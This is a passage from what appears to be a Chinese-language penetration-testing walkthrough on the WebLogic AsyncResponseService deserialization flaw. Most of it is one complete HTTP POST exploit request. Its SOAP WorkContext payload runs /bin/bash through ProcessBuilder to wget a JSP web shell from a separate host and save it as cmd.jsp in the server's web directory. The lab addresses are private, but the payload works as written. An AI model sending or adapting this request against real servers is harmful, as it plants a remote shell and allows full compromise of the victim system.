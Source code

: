重新访问   
/_async/AsyncResponseService 路径，利用BurpSuite抓包，构造Payload  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEeky06cmibtkOvJsicaAecfNQTacNtPZ5hnOae3x5PjH4Z4rVvpz7vEibQ/640?wx_fmt=png&from=appmsg "")  
```
POST /_async/AsyncResponseService HTTP/1.1
Host: 192.168.111.128:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 838
Accept-Encoding: gzip, deflate
SOAPAction:
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing"
xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>wget http://192.168.235.9/JspWebShell.txt -O servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/cmd.jsp
</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header><soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```  
  
发送HTTP报文  
  